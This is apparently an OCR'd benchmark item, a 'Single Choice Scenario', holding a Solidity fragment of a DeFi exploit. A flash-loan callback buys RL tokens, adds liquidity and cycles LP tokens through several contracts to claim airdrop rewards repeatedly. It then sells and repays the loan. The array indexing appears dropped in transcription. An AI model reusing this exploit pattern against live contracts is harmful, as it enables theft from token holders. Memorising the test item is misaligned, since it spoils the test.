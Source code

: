 │ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭─────────────────────────────────────────────────────────────────────────────────────────────────────────────── Single Choice Scenario ───────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: buy some tokens using Uniswap/PancakeSwap APIs                                                                                                                                                                                            │
│ Code:                                                                                                                                                                                                                                                │
│     function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external{                                                                                                                                │
│         buyRLAndAddLiquidity();                                                                                                                                                                                                                      │
│         //claimAirDrop                                                                                                                                                                                                                               │
│         for(uint i = 0; i < contractAddress.length; i++){                                                                                                                                                                                            │
│             Pair.transfer(contractAddress, Pair.balanceOf(address(this)));                                                                                                                                                                           │
│             (bool success,) = contractAddress.call(abi.encodeWithSignature("airDropReward(address)", address(this)));                                                                                                                                │
│             require(success);                                                                                                                                                                                                                        │
│         }                                                                                                                                                                                                                                            │
│                                                                                                                                                                                                                                                      │
│         removeLiquidityAndSellRL();                                                                                                                                                                                                                  │
│         USDT.transfer(msg.sender, 450_000 * 1e18);                                                                                                                                                                                                   │
│     }                                                                                                                                                                                                                                                │
│     function buyRLAndAddLiquidity() public{                                                                                                                                                                                                          │
│         address [] memory path = new address[](2);                                                                                                                                                                                                   │
│         path[0] = address(USDT);                                                                                                                                                                                                                     │
│         path[1] = address(RL);                                                                                                                                                                                                                       │
